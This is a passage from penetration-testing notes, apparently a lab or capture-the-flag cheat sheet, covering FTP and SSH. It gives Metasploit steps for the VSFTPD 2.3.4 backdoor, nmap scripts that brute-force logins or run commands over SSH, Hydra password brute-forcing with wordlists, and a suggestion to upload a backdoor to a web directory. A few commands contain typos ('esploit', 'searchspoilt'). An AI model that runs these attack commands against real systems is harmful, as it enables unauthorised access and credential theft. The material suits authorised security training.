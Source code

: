 {% code title="Metasploit" %}
```bash
service postgresql start && msfconsole

## VSFTPD 2.3.4 Backdoor Command Execution
use esploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS IP
exploit
```
{% endcode %}

#### Scope

* Check if we are access to a web directory. Upload a backdoor and we are in!

## 22 - SSH

```
# CHECK THE VERSION
searchsploit ssh VERSION
```

### SSH enumeration

```bash
# Nmap enum
nmap -sV -sC -p 22 IP

nmap -p 22 --script ssh2-enum-algos IP
nmap -p 22 --script ssh-hostkey --script-args ssh_hostkey=full IP
nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=USER" IP

nmap -p 22 --script=ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG, ssh-run.username=USER, ssh-run.password=PASS" <TARGET_IP>

nmap -p 22 --script=ssh-brute --script-args userdb=USERS IP
```

{% code title="Metasploit Enumeration" %}
```bash
service postgresql start && msfconsole

search type:auxiliary name:ssh

use auxiliary/scanner/ssh/ssh_version
use auxiliary/scanner/ssh/ssh_enumusers
use auxiliary/scanner/ssh/ssh_login
```
{% endcode %}

### SSH exploit

```bash
# Search exploit for current version
searchspoilt OpenSSH 7.1

# Hydra SSH Brute-forcing
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt IP ssh -I
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt IP ssh -I
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt IP ssh -I

# SSH connection with creds
ssh USER@IP
PASS
```
